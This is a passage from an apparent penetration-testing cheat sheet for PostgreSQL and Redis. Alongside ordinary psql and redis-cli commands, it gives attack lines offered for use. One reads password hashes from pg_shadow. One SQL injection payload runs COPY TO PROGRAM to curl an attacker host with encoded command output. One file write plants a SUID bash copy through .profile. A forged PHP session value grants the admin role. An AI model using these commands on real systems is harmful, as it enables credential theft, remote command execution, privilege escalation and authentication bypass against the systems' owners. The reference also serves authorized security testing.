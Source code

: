 ### Common Commands

```c
postgres=# \l                        // list all databases
postgres=# \list                     // list all databases
postgres=# \c                        // use database
postgres=# \c <DATABASE>             // use specific database
postgres=# \s                        // command history
postgres=# \q                        // quit
<DATABASE>=# \dt                     // list tables from current schema
<DATABASE>=# \dt *.*                 // list tables from all schema
<DATABASE>=# \du                     // list users roles
<DATABASE>=# \du+                    // list users roles
<DATABASE>=# SELECT user;            // get current user
<DATABASE>=# TABLE <TABLE>;          // select table
<DATABASE>=# SELECT * FROM users;    // select everything from users table
<DATABASE>=# SHOW rds.extensions;    // list installed extensions
<DATABASE>=# SELECT usename, passwd from pg_shadow;    // read credentials
```

### Command Execution

```c
<DATABASE>=# x'; COPY (SELECT '') TO PROGRAM 'curl http://<LHOST>?f=`whoami|base64`'-- x
```

#### File Write

```c
<DATABASE>=# COPY (SELECT CAST('cp /bin/bash /var/lib/postgresql/bash;chmod 4777 /var/lib/postgresql/bash;' AS text)) TO '/var/lib/postgresql/.profile';"
```

## Redis

```c
$ redis-cli -h <RHOST>
$ redis-cli -s /run/redis/redis.sock
```

### Common Commands

```c
> AUTH <PASSWORD>
> AUTH <USERNAME> <PASSWORD>
> INFO SERVER
> INFO keyspace
> CONFIG GET *
> SELECT <NUMBER>
> KEYS *
> HSET       // set value if a field within a hash data structure
> HGET       // retrieves a field and his value from a hash data structure
> HKEYS      // retrieves all field names from a hash data structure
> HGETALL    // retrieves all fields and values from a hash data structure
> GET PHPREDIS_SESSION:2a9mbvnjgd6i2qeqcubgdv8n4b
> SET PHPREDIS_SESSION:2a9mbvnjgd6i2qeqcubgdv8n4b "username|s:8:\"<USERNAME>\";role|s:5:\"admin\";auth|s:4:\"True\";" # the value "s:8" has to match the length of the username
```
